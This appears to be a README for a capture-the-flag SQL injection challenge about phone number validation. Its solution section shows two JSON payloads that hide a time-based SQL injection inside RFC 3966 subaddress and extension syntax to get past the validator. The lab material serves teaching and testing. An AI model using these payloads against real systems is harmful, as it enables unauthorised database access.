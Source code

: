 # Phone Number Validation
Is this app vulnerable to SQLi? Exploit it!

## Installation
Run the following command to deploy the challenge:
```bash
docker compose up -d
```


<details>
  <summary>Toggle to see the solution</summary>

  This challenge is vulnerable in several ways. Here are two of them:
  1. According to RFC 3966, an ISDN-Subaddress can follow the phone number.
  2. Library implementation also allows additional phone number ranges such as "x12/x34" after the phone number.

  Solution:
  ```json
  {
    // First Solution (RFC 3966) 
    "phone_number": "989123456789;isub=x', (SELECT SLEEP(10))) -- -",
    
    // Second Solution (RFC 3966) 
    "phone_number": "989123456789 x1/x2', (SELECT SLEEP(10))) -- -"
  }
  ```

</details>